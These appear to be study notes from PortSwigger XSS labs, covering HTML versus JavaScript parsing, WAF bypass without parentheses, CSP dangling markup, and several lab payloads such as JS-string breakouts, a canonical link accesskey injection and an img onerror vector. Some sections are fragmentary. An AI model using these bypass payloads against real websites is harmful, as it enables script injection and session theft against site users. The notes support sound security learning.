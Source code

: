 ## XSS Techniques and Resources

### HTML Parsing vs JavaScript Parsing

The reason this works is that the browser first performs HTML parsing to identify the page elements, including blocks of script, and only later performs JavaScript parsing to understand and execute the embedded scripts. The above payload leaves the original script broken, with an unterminated string literal. But that doesn't prevent the subsequent script from being parsed and executed in the normal way.

### WAF Bypass Without Parentheses

If a WAF doesn't allow `()`, one way to bypass this is to use the `throw` statement with an exception handler. This enables you to pass arguments to a function without using parentheses. The following code assigns the `alert()` function to the global exception handler and the `throw` statement passes `1` to the exception handler (in this case, `alert`). The result is that the `alert()` function is called with `1` as an argument.

```js
onerror=alert;throw 1
```

[Learn more](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)

### XSS Using Hidden Input Fields

[Learn more](https://portswigger.net/research/xss-in-hidden-input-fields)

### CSP and Dangling Markup

Even if CSP (Content Security Policy) is in place, there are useful techniques involving dangling markup. The key takeaway is that if CSP isn't blocking frame and base URI, the site might be vulnerable if filters can be bypassed.

[Learn more](https://portswigger.net/web-security/cross-site-scripting/content-security-policy)  
[Evading CSP with Dangling Markup](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup)

### Lab: Reflected XSS Into a JavaScript String (HTML Encoded)

- Payload: `'-alert(1)-'`

[Learn more](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)

Payload for this one was: `\"} + alert(1)//`

### Lab: Reflected XSS with Some SVG Markup Allowed

```html
<svg width="200" height="200">
  <rect x="10" y="10" width="100" height="100" fill="blue">
    <animateTransform attributeName="x" from="10" to="150" dur="5s" begin="0s" fill="freeze" 
             onbegin="console.log('Animation started!')" />
  </rect>
</svg>
```

### Lab: Canonical Link Tag XSS

- Payload: `https://0aef006d0472a828811dedef00de0029.web-security-academy.net/?'accesskey='x'onclick='alert(1)`

### Reflected XSS into a JavaScript String with Angle Brackets and Double Quotes HTML-Encoded and Single Quotes Escaped

- Payload: `';alert(1)//`

### The Most Beautiful One

- Payload (HTML Encoded): `https:');alert(1)//`
- Real Payload: `https:&apos;);alert(1)//`

**Fazit:** We can use HTML encoding in JS to close JS but not to close HTML.

### Example Payloads

```html
<img src=1 oNeRrOr=alert`1`>
```
```